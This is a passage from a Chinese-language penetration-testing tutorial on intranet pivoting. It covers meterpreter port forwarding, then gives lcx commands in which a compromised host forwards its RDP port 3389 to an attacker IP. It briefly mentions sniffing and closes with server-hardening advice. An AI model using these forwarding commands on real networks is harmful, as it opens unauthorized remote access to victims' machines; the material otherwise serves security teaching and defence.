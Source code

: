 ##### 案例
将肉鸡的22端口转发到攻击机的2222端口，看一下连接情况。
发现攻击机上监听了2222端口，连接到了本机其外一个高端口。
![](/upload_image/20170809/4.png)
肉鸡的22端口也连接到了肉鸡自己的一个高端口
![](/upload_image/20170809/5.png)
那么两台服务器之间的两个高端口之间是怎么连接的，我想肯定是利用meterpreter会话。因此meterpreter会话就相当于一个中间人，传递原本无法传递的消息。

#### lcx端口转发
攻击机: 
```bash
lcx -listen 2222 3333 # 2222为转发端口，3333为本机任意未被占用的端口
```
肉鸡：
```bash
lcx -slave 110.1.1.1 2222 127.0.0.1 3389
```
110.1.1.1为攻击机外网ip，2222为转发端口，127.0.0.1为肉鸡内网ip，3389为远程终端端口 。

### 内网嗅探
　　windows下可以使用cain，linux下可以使用msf中的模块。当然一般情况下，最好不要用内网嗅探，因为动静太大，而且可能会影响内网网络。


### linux内网安全建议
说了这么多内网渗透的套路，按惯例最后该给出内网安全建设的几点建议了，当然只是个人看法，可以一起留言讨论。
* 每台服务器上安装监控软件，监控并拦截木马程序的运行（监控木马文件以及行为）
* 监控服务器上开启的新端口，查看其连接情况，是否有异常连接（监控异常端口）
* 服务器及时更新补丁，以及最新系统漏洞补丁（减少漏洞）
* 服务器上运行的应用给予低权限（增加提权的难度）
* 不必要连接外网的服务器，禁止连接外网（减少被入侵的风险）
* 日志记录并且实时监控（监控异常操作以及暴力破解行为）


### 参考文章
http://bobao.360.cn/learning/detail/4164.html
http://bobao.360.cn/learning/detail/3204.html
http://www.freebuf.com/sectool/56432.html
http://www.freebuf.com/articles/network/125278.html

### 传送门
[【玩转linux系列】Vim使用](https://thief.one/2017/08/09/1/)
[【玩转linux系列】Linux基础命令](https://thief.one/2017/08/08/1/)
[【玩转linux系列】shell编程](https://thief.one/2017/08/11/1/)











